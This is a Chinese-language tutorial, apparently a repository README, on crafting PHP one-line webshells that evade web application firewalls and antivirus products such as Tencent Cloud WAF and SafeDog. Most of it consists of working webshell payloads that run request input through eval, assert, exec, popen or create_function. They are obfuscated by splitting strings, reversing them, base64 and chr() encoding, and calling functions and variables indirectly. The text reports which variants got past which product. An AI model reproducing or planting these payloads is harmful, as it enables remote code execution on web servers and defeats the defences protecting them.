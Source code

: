 
### PHP-WebShell-Bypass-WAF

  PHP WebShell 一句话的结构是:输入和执行,这是经典的PHP 一句话代码:

```PHP
    <?php eval($_GET['test']); ?>
    <?php eval($_POST['test']); ?>
```

WebShell 的输入点在<b>$_GET</b> 和<b>$_POST</b> ,执行点在**eval()** ,经典的一句话WAF 都会拦截<br/>

  测试:`<?php eval($_GET['test']); ?>`

![](pic/php-eval-get.png)

  测试:`<?php $_GET['test']; ?>`

![](pic/php-get.png)

  测试:`<?php eval(); ?>`

![](pic/php-eval.png)

  综合上面三点,可以发现WAF 是通过关键字来拦截的,把这三个测试用例放到安全狗下测试

![](pic/php-eval-get-safedog.png)

  可以发现,安全狗是通过综合判断来识别WebShell 的,现在,我们有两种的绕过方式:关键字绕过和混淆绕过

### 关键字绕过

  一般来说,WAF 里边的拦截规则都是使用了正则来匹配的,第一个绕过思路:**寻找WAF 拦截里边有没有匹配的关键字**<br/>
  
  测试用例:`<?php%20assert('$code='.$_REQUEST['code']);$code();%20?>`

![](pic/tencent-WAF-assert-bypass.png)

  测试用例:`<?php%20$file=file_put_contents('code.php','<?php%20'.$_REQUEST['code'].'%20?>');include%20'code.php';%20?>`

![](pic/tencent-WAF-include-bypass.png)

  测试用例:`<?php%20exec($_REQUEST['code']);%20?>`

![](pic/tencent-WAF-exec-bypass.png)

  测试用例:`<?php%20$handle=popen($_REQUEST['code'],'r');echo%20fread($handle,1024*4);?>`

![](pic/tencent-WAF-popen-bypass.png)

  测试用例:`<?php%20$function=create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();%20?>`

![](pic/tencent-WAF-create_function-bypass.png)

  思路1 总结:尽可能找到更多不被拦截的函数,然后用来测试

  后来,这些关键字都被策略补上去了,接下来就使用混淆来绕过关键字检测

### 混淆绕过

  `create_function()` 是比较有意思的函数,函数的原型为:[Link](http://php.net/manual/en/function.create-function.php)
  
```PHP
    string create_function ( string $args , string $code )
```

  第一个参数是函数需要的参数列表,第二个参数为函数代码,最后会返回一个函数对象,然后再去调用.在构造代码的时候(构造第二个参数)可以有很多不同的混淆方法
  
```PHP
    eval($_GET['test']);
```
  
  通过很多不同种类的字符串变化成下面的例子
  
```PHP
    'ev'.'al'.'($_G'.'ET['.'"test"]);'
    strrev('$(lave').'_G'.'ET['.'"test"]);';
    base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=');
```

  这样的变化是非常多的,用云WAF 和安全狗测试一下:

```PHP
    <?php $function=create_function('$code','ev'.'al'.'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',strrev('$(lave').'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=')) ?>
```

![](pic/create_function_tencent-WAF.png)

![](pic/create_function_safedog.png)

  腾讯云WAF 的策略是把`create_function()` 当作敏感函数拦截了,这三个WebShell 安全狗也都全部杀掉,先从安全狗开始尝试绕过.
  
  首先使用一个空的`create_function()` 尝试看看安全狗有没有杀掉

![](pic/create_function_safedog_nokill.png)

  向`create_function()` 填充一些可以执行的代码,安全狗也没有杀.

![](pic/create_function_safedog_nokill2.png)

  填充`eval($_GET['test'])` ,发现安全狗识别出WebShell
  
![](pic/create_function_safedog_kill.png)

  使用混淆`'ev'.'al'.'($_G'.'ET['.'"code"'.']);'` 也同样可以被识别

![](pic/create_function_safedog_kill2.png)

  使用`strrev('ve').strrev('la').base64_decode('KCRfR0VUWw==').'"code"'.']);';` 也还是可以别识别

![](pic/create_function_safedog_kill3.png)

  不过不要灰心,PHP 是很灵活的语言,变化的花样很多,试试这样写,就可以绕过安全狗的扫描了

![](pic/create_function_safedog_kill4.png)

  做一句话WAF 绕过和免杀,一定要相信自己,AV 和WAF 除了用关键字和综合判断来识别WebShell ,终会有办法绕过的.现在过狗,接下来介绍一下间接调用函数与间接引用变量.

### 间接调用函数

  PHP 里边有个语法是`$function='eval';` ,然后就可以直接对$function 变量进行函数调用,语法是`$function()`.基于这一点,我们回过头来绕过云WAF

Payload:

```PHP
    <?php $function='create'.'_function';$function=$function('$code','ev'.'al'.'($_'.'GET'.'["code"]);');$function();?>
```

![](pic/tencent-WAF-create_function-bypass-remix.png)

### 间接调用变量

  PHP 还有一个语法是`$$` 间接引用变量,比如:`$test=1234;$reference='test';echo $$reference;` 这样使用,reference 变量里边保存test 变量的名字,然后用符号$$ 即可引用到变量test .这样有什么意义呢?因为WAF 和AV 会通过$_GET ,$_POST 来判断WebShell ,不妨回到云WAF 再看看

![](pic/tencent-WAF-$_GET.png)

  使用`$$` 来绕过,Payload 如下:

```PHP
    <?php $a = '_GET';echo $$a['test'];  //  云WAF 规则已经更新,<?php ?> 会被拦截,所以去掉?> 即可绕过,由此判断是正则匹配,可以开开脑洞发挥一下绕过正则判断
```

![](pic/tencent-WAF-$_GET-bypass.png)

  这样就可以绕过对$_GET ,$_POST 的检测,同样,还有$_REQUESTS ,$_COOKIE 

![](pic/tencent-WAF-$_COOKIE-bypass.png)

### 文末总结

  到了这里,举一些不错的一句话木马来分析一下原理,推荐深入研究的读者访问这里[Link](https://github.com/tennc/webshell/tree/master/php)

1.

```PHP
    <?php array_map("ass\x65rt",(array)$_REQUEST['expdoor']);?>
```

  这个WebShell 使用到`array_map()` 和`ass\x65rt` ,array_map() 是调用函数的,第一个参数是即将要调用的函数名,这里`ass\x65rt` 使用了编码绕过,绕过了字符串判断,第二个参数是传递给这个函数的参数

2.

```PHP
    <?$_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>

```
  这个WebShell 使用到了间接引用函数,$_uU 重定向到chr() ,;$_cC 最后解码为`eval($_POST[1]);` ,$_fF 解码为`create_function` ,最后就是create_function 的调用过程,和php-shell-create_function.php 原理一样

3.

  未知攻,焉知防,这个是关于PHP Shell 的一句话检测脚本[Link](https://github.com/tennc/webshell/blob/master/php/pHp%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%89%AB%E6%8F%8F%E8%84%9A%E6%9C%AC%E7%A8%8B%E5%BA%8F.php),很多绕过的思路都是在做防御的时候想到的,没有绝对的防御,甚至是看起来正确的思路在代码实现的过程中会存在Bug 导致分析或者识别失败.

